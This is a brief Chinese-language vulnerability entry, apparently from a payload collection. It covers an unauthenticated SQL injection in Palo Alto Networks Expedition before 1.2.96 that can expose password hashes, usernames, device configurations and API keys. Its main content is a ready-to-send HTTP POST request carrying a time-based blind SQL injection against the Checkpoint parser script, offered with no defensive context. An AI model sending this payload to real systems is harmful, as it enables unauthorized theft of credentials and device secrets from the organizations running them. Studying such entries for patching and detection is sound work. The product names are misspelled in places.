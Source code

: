 **漏洞描述：**

Palo Aloto Networks Expendition chekpoint接口存在SQL注入漏洞，攻击者可通过漏洞未授权获取Expedition数据库内容,例如密码哈希、用户名、设备配置和设备API密钥,利用这一点，还可以在Expedition 系统上创建和读取任意文件。

**影响版本：**

Palo Alto Networks Expedition < 1.2.96

**Payload：**

```yaml
POST /bin/configurations/parsers/Checkpoint/CHECKPOINT.php HTTP/1.1
Host:
Content-Type: application/x-www-form-urlencoded

action=import&type=test&project=pandbRBAC&signatureid=1%20AND%20(SELECT%201234%20FROM%20(SELECT(SLEEP(5)))test)
```

---
